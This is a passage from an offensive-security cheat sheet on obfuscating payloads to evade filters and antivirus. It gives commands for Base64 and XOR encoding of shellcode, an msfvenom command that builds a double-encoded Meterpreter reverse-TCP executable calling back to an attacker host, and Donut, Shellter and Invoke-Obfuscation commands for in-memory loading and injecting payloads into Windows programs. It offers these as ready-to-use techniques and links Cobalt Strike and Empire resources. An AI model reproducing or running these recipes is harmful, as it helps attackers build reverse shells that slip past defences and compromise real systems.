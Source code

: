 3. **[Obfuscator.io](http://obfuscator.io/)**:
   - **JavaScript Payload Obfuscation**:
     - Paste JavaScript code to be obfuscated.
     - Select options such as **Self-Defending** and **Control Flow Flattening** for higher obfuscation.

### 🧩 Encoding Techniques for Bypassing Filters

1. **Base64 Encoding**:
   - **Linux Command**:
     ```bash
     echo -n "payload" | base64
     ```
   - **PowerShell**:
     ```powershell
     [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("payload"))
     ```

2. **XOR Encoding**:
   - **Python Example**:
     ```python
     plaintext = "shellcode"
     key = 'A'
     encoded = ''.join(chr(ord(c) ^ ord(key)) for c in plaintext)
     ```

3. **Double-encoding in Metasploit (msfvenom)**:
   - **Shikata_ga_nai + xor**:
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 5 -e x86/xor_dynamic -o payload.exe
     ```

### 🎩 Additional Obfuscation Tools

- **Donut**: Converts payloads into shellcode for in-memory execution.
  ```bash
  donut payload.dll
  ```

- **Shellter**: Obfuscates and injects payloads into Windows executables.
  ```bash
  shellter -a -f program.exe
  ```

- **Invoke-Obfuscation (PowerShell)**:
  - PowerShell script to obfuscate scripts using various techniques.
    ```powershell
    Invoke-Obfuscation -ScriptBlock <command>
    ```

### 📘 Resources

- **Cobalt Strike Documentation**: [Cobalt Strike User Guide](https://www.cobaltstrike.com/help-cobalt-strike)
- **Empire Documentation**: [Empire Wiki](https://github.com/BC-SECURITY/Empire/wiki)
- **Obfuscation Techniques**: [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings)
